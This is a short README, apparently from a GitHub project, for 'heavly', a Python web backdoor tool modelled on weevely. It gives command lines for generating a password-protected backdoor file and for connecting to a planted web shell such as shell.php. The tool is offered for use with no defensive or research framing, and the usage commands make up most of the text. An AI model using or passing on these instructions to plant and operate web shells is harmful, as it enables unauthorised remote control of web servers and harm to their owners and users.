

# heavly
Backdoor web in python

##Apresentação
    A Backdoor web in python based on weevely

```
    [+] AUTOR:        Gilmar Silva
    [+] GITHUB:       https://github.com/HeavenH
    [+] TWITTER:      https://twitter.com/gilmarsilva_
```

###How to generate your backdoor:
```
    heavly ./heavly.py -g "name_of_backdoor" "password of backdoor"
    python3 heavly.py -g "name_of_backdoor" "password of backdoor"
    heavly.py -g "name_of_backdoor" "password of backdoor"
 ```
 
Connecting to the server:
 ```
    heavly ./heavly.py -u "http://localhost/shell.php" "password"
    python3 heavly.py -u "http://localhost/shell.php" "password"
    heavly.py -u "http://localhost/shell.php" "password"
```


